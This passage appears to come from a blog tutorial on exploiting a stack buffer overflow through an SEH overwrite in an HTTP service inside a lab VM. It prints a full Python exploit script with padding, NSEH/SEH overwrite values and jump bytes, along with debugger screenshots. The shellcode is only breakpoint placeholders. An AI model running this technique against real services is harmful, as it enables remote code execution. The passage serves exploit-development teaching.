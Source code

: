 Lets pick the first address we find (004015C2):


[![](https://2.bp.blogspot.com/-gt6uNPYgGjk/VEGei6lBT_I/AAAAAAAAAbo/fpPnuCORMBA/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_061.png)](https://2.bp.blogspot.com/-gt6uNPYgGjk/VEGei6lBT_I/AAAAAAAAAbo/fpPnuCORMBA/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_061.png)


Putting this into the exploit gives the following:


> #!/bin/python
> import socket
> 
> shellcode = "\\xCC" \* 600
> jmpShellcode = "\\xE9\\xF3\\xFC\\xFF\\xFF" # JMP to the beginning of our shellcode
> inital = "\\x41" \* (790 - len(shellcode)-len(jmpShellcode))
> nseh = "\\xEB\\xF0\\x90\\x90" # JMP backwards 15 bytes
> seh = "\\xC2\\x15\\x40" #004015C2 -> POP EDI, POP EBP, RETN from Application itself
> 
> 
> buffer = "POST /" + shellcode + inital + jmpShellcode + nseh + seh + " HTTP/1.1\\r\\n"
> buffer += "User-Agent: Wget/1.13.4\\r\\n"
> buffer += "Host: 192.168.99.142:8080\\r\\n"
> buffer += "Accept: \*/\*\\r\\n"
> buffer += "Connection: Keep-Alive\\r\\n"
> buffer += "Content-Type: application/x-www-form-urlencoded\\r\\n"
> buffer += "Content-Length: 4"
> buffer += "\\r\\n\\r\\n"
> buffer += "licenseID=string&content=string&paramsXML=string"
> 
> handle = socket.socket(socket.AF_INET, socket.SOCK\_STREAM)
> handle.connect(("192.168.82.129", 8080))
> handle.send(buffer)
> handle.close()


Sending this results in us hitting our POP POP RET (the breakpoint was set after this photo was taken, but make sure to set one there before you try sending the exploit):


[![](https://3.bp.blogspot.com/-ikXaUo6girg/VEGgxFBZ7BI/AAAAAAAAAb0/EOAsSKNBXH0/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_062.png)](https://3.bp.blogspot.com/-ikXaUo6girg/VEGgxFBZ7BI/AAAAAAAAAb0/EOAsSKNBXH0/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_062.png)



And executing these instructions lands us in the 4 byte space we are presently using for the NSEH address:


[![](https://2.bp.blogspot.com/-O-Z-mHMhJoE/VEGh9pUBkLI/AAAAAAAAAcA/fpc9ccAx4Xw/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_063.png)](https://2.bp.blogspot.com/-O-Z-mHMhJoE/VEGh9pUBkLI/AAAAAAAAAcA/fpc9ccAx4Xw/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_063.png)
